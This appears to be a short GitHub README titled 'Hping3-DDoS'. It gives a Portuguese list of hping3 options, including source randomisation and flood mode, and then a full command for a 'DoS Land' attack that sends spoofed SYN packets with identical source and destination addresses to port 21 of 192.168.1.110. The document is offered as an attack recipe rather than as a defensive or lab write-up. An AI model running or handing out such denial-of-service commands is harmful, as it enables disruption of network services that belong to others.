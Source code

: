 # Hping3-DDoS

# Important Commands

```
• -V: Modo Verbose;
• -c: Contador de pacotes;
• -d: Tamanho do dado;
• -p: Porta de destino;
• -s: Porta de origem;
• –rand-source: Randomização da origem;
• –fast: 10 pacotes por segundo;
• –faster: 100 pacotes por segundo;
• –flood: Máximo de pacotes possı́veis por segundo;
```


## Attack DoS Land
```
hping3 -V -c 1000 -d 100 -S -p 21 -s 80 -k -a 192.168.1.110 192.168.1.110
```